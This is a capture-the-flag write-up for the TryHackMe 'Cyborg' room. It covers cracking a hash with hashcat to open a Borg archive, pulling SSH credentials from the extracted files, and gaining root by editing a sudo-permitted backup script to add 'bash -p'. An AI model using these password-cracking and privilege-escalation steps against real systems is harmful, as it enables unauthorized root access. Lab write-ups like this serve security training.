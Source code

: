 ```yaml
---
title: Cyborg
description: 'Cracking the password of a Borg archive and abusing permissions to execute code as root'
pubDate: 2024-05-18
category: 'tryhackme'
tags: ['borg archive']
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/6cc3e134a104210f90367c6557e42b6e.jpeg'
---
```


## Getting the password

```bash
hashcat hash /usr/share/wordlists/rockyou.txt --user
...[snip]...
$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward
...[snip]...
```

## Extracting the archive
```bash
borg list final_archive
Enter passphrase for key /home/ex-it/Documents/THM/cyborg/final_archive:
music_archive                        Tue, 2020-12-29 15:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

```bash
┌──(ex-it㉿kali)-[~/Documents/THM/cyborg/extracted]
└─$ borg extract ../final_archive::music_archive
Enter passphrase for key /home/ex-it/Documents/THM/cyborg/final_archive:
Warning: The repository at location /home/ex-it/Documents/THM/cyborg/final_archive was previously located at /home/ex-it/.local/share/Trash/files/final_archive
Do you want to continue? [yN] Y
```

## SSH credentials
from `extracted/home/alex/Documents/note.txt`:
alex:S3cretP@s3

## Privesc

```bash
sudo -l
...[snip]...
(ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```
Can't write to the `backup.sh` file but we are owner so we can change the permissions:

```bash
chmod 777 /etc/mp3backups/backup.sh
```

On top of the backup script we add `bash -p`.
Now when we execute the script with `sudo /etc/mp3backups/backup.sh` we drop in to a root shell.

```bash
alex@ubuntu:/etc/mp3backups$ sudo /etc/mp3backups/backup.sh
root@ubuntu:/etc/mp3backups# id
uid=0(root) gid=0(root) groups=0(root)
```
